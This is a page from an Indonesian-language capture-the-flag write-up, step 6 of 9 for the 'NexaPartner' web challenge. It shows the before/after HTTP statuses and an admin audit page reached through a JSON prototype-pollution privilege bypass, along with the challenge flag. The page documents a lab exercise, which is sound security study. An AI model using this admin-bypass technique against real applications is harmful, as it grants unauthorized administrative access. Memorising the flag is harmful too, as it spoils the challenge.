

# NexaPartner — Output asli

[← Overview](12-nexapartner.md) · [Index](index.md)

> **Langkah 6/9 — Output asli.** Status sebelum/sesudah:
>
> **Titik penting:** NFX{js0n_pr0t0_p0llut10n_4dm1n_byp4ss} · https://x.example/h","digest":"daily","theme":"dark"}}
>
> **Berikutnya:** [Flag](12-nexapartner-07-flag.md)

## 3.3 Output asli

Status sebelum/sesudah:

```text
before: 403
pollute: 200 {"ok":true,"settings":{"emailNotifications":false,"webhookUrl":"https://x.example/h","digest":"daily","theme":"dark"}}
admin: 302 Location: /admin/audit
```

Halaman audit:

```text
HTTP/1.1 302 Found
Location: /admin/audit

<title>Admin audit — NexaPartner</title>
...
<span class="pill pill-role">Administrator</span>
...
<td><strong>admin</strong></td>
<td>Partner recovery token rotated</td>
<td class="muted">Temporary partner console recovery token: NFX{js0n_pr0t0_p0llut10n_4dm1n_byp4ss}</td>
...
<h2>Recovery token</h2>
<div class="admin-note">
  <p>NFX{js0n_pr0t0_p0llut10n_4dm1n_byp4ss}</p>
</div>
```

### Evidence langkah ini



*Terminal evidence — `02-authed-crawl.txt` (arsip transkrip sesi solve).*


*Terminal evidence — `03-exploit-evidence.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`02-authed-crawl.txt`](assets/nexapartner/02-authed-crawl.txt)
- [`03-exploit-evidence.txt`](assets/nexapartner/03-exploit-evidence.txt)
